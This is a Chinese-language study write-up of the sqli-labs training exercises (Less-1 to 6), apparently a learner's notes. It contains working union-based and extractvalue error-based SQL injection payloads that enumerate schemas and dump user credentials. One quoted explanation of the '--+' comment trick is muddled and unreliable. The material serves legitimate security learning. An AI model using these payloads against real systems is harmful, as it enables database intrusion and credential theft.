


# sqli靶场学习

[推荐参考的sql注入教程](https://www.bilibili.com/video/BV1c34y1h7So)

## sqli-less1


发现题目说请输入ID作为数值参数


判断是get传参，并且发现只有get传参传id而非ID才可有正常回显


输入?id=1 and 1=1 与?id=1 and 1=2 发现均有回显且没变化，考虑是字符型注入


id=1' and '1'='1回显正确id=1' and '1'='2回显错误（判断为【'】闭合）

---

### 注释妙用

查大佬的wp时候发现大佬用‘--+’注释掉后面的语句，而非使用‘--’，因此便查了一下，学到以下知识点：

> 1. `--` 这是MySQL中的一种单行注释方式。当你在SQL语句中使用 `--` 后跟一个空格时，它会注释掉 `--` 之后的所有内容，直到行尾。

> 2. `#` 这也是MySQL中的一种单行注释方式，用法与 `--` 类似，但它是用 `#` 开始，后面跟一个空格。

> 3. `/* ... */` 这是MySQL中的多行注释方式，可以注释掉一段跨多行的文本。

> 在SQL注入中，攻击者选择使用 `--+` 而不是 `--` 的原因通常与数据库的字符型字段处理有关。在某些情况下，如果数据库字段中已经包含了 `--` 作为数据的一部分，那么使用 `--` 作为注释符可能会导致注入的SQL语句被数据库提前注释掉，从而使得注入的恶意代码无法执行。例如，如果一个查询是这样的： 
```sql
SELECT * FROM users WHERE username = 'someUser' AND password = 'somePass--';
```

> 如果攻击者尝试注入 `--` 来注释掉 `somePass--` 后面的部分，整个密码字段 `somePass--` 都会被注释掉，因为数据库会认为 `--` 是注释的开始，而不是密码的一部分。

> 使用 `--+` 的目的是利用MySQL解析器的一个特性，即它在解析查询时会忽略 `--` 后面紧跟的任何非字母字符。因此，如果攻击者在 `--` 后面紧跟一个加号 `+`，MySQL解析器会认为 `--+` 是无效的注释，而不会将其视为注释的开始。这样，攻击者就可以绕过已经存在于查询中的 `--` 注释符，并且能够插入自己的恶意代码。

> 但这种方法需要数据库支持这种注释方式，并且需要攻击者对目标数据库的解析行为有足够的了解。在实际的SQL注入防御中，最好的策略是使用参数化查询（也称为预处理语句）来避免这类攻击，因为参数化查询会将数据和代码分开处理，从而防止SQL注入。

> 总之，`--+` 是MySQL中一种常见的单行注释方式，但需要注意使用它时需要确保数据库支持这种注释方式。
---


此处用 order by 对前面的数据进行排列，先进行试数，发现只有三组数据，'order by 4–+就会超出，因此可以判断出有3个字段

---

### 特殊的SQL语句
>Union
>联合运算符⽤于组合两个或多个 SELECT 语句的结果。

>注意：每个语句中选择的列数必须相同。

>第⼀个 SELECT 语句中第⼀列的数据类型必须与第⼆个（第三个、第
四个…） SQL 语句的第⼀列的数据类型匹配 SELECT 语句。

>第⼀个 SELECT 语句中第⼆列的数据类型必须与第⼆个（第三个、第
四个…） SQL 语句的第⼆列的数据类型匹配 SELECT 语句。

---


发现可以进行union联合注入那么用如下语句来进行注入

```sql
SELECT * FROM users WHERE id='-1' UNION SELECT 1, group_concat(schema_name), 3 FROM information_schema.schemata LIMIT 0, 1 --+
```
> SELECT 1, group_concat(schema_name), 3 FROM information_schema.schemata：这是注入的查询。information_schema.schemata是MySQL中的一个特殊的数据库，它包含了服务器上所有数据库的信息。group_concat函数用于将多个行中的字段值连接成一个字符串。在这个查询中，它被用来获取所有数据库的名称，并将它们合并成一个单一的字符串。

> LIMIT 0, 1：这是用来限制查询结果的数量。LIMIT 0, 1表示只返回第一行数据，而不是所有,因为它可以减少被注入的查询对原始页面显示的影响，从而降低被发现的风险。

---


得到所有数据库的名称

```sql
 SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1
```


得到security数据库中的所有表

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = 'security' and table_name = 'users' --+ LIMIT 0,1
```

得到users表中的所有列名

```sql
select 1,group_concat(username),group_concat(password) from security.users --+
```

得到users表中的所有数据


### 总结

> 1. 判断注入点
> 2. 判断注入类型
> 3. 判断闭合方式（有关注释的知识点）
> 4. 判断字段数（有关union联合注入的知识点）
> 5. 获得数据库名称
> 6. 获得列名
> 7. 获取数据

---

## sqli-less2




输入?id=1 and 1=1 有回显，?id=1 and 1=2无回显，判断出是数字型注入


输入 order by 3+ 发现有回显，输入 order by 4+ 发现无回显，判断出有3个字段


发现可以使用union联合注入，输入如下语句
```sql
?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata LIMIT 0, 1 --+
```

得到所有数据库的名称：information_schema,challenges,mysql,performance_schema,security,sys

```sql
union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1
```

得到security数据库中的所有表：emails,referers,uagents,users

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_schema = 'security' and table_name = 'users' --+ LIMIT 0,1
```

得到security.users表中的所有列名：id,username,password

```sql
SELECT * FROM users WHERE id='-1'union select 1,group_concat(username),group_concat(password) from security.users --+
```

得到users表中password的所有数据


### 总结（与less2方式相同）
> 1. 判断注入点
> 2. 判断注入类型
> 3. 判断字段数
> 4. 获得数据库名称
> 5. 获得数据表名
> 6. 获得列名
> 7. 获取数据

---
## 再次做完前两less后的总结（侧重思路）
1.还是先判断注入点和注入类型
2.判断字段数，这里可以使用order by（常见但容易被waf封）也可以使用group by（不易被waf封但用的时候可能会出现问题），注释小知识：可以用'--+'或'#'，看具体情况使用，亦或者可以使用'%23'
3.看看是否可以用 union联合注入，同时判断回显的位
4.在可以回显的位置尝试用database（）函数，可以直接爆当前所在库名，亦或者可以使用union select 1,group_concat(schema.name),3 from infomation.schema.schemata获得所有库名
5.用table_name,information_schema.tables，where table_schema='' 来获得表名
6.用column_name,information_schema.columns 来获得列名
7.用已经获得的表名和列名直接获取信息

---
## sqli-less3


判断出是字符型，接下来判断闭合方式，尝试用'闭合

发现报错如下，证明是'+）

证明闭合方式是')，接下来与前两节方式一样



or


## sqli-less4


判断出是字符型，接下来判断闭合方式


发现报错信息，判断闭合方式是"+)

后面的方式与前三课一样


## sqli-less5


发现没有像前三课一样直接回显的是用户的信息

根据报错，判断是单引号闭合

接下来判断字段数


得知字段数有3个

正常的命令执行了但没有显示，那就尝试改成不正确的命令试试

判断出当前数据库的库名是security
或者可以使用
```sql
union select 1,2,extractvalue(1,concat(0x7e,(select database())))
#知识点：extractvalue()是报错注入中常用的函数。
#作用：从XML片段中提取指定的值。
#示例：SELECT EXTRACTVALUE('<root><tag>value</tag></root>', '/root/tag'); 返回 value。其中'<root><tag>value</tag></root>'可以认为是标签tag，'/root/tag'则可认为是路径
#用途：在报错注入中，可以传递无效的XML路径或结构来触发错误。
#concat(1,2)将‘1,2’拼接到一块
#0x7e，是'~'的ascii的十六进制表示，因为用extractvalue()时，路径的前面有'~'时则会将路径报错返回
```


```sql
union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where table_schema=database())))--+
```
可以通过这个sql语句利用extractvalue()报错来获得表名


```sql
union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_schema=database() and table_name='users')))--+
```
同理利用相同的语句构造可以获得列名


同理获得表的数据

此处发现返回数据不全，原因是extractvalue()函数的回显只能有32个字符
> 解决方法：使用**substring(x,y,z)**，其中x为控制输出的字符串,y为开始显示的字符的位置，z为显示字符的个数

```sql
union select 1,2,extractvalue(1,concat(0x7e,substring((select group_concat(username,'~',password)from security.users),1,30)))--+
```

同理可以得到其他本来无法显示的数据


这一节还可以利用updatexml()函数，下一节用updatexml

## sqli-less6


判断出闭合方式是"


[推荐参考的sql注入教程](https://www.bilibili.com/video/BV1c34y1h7So)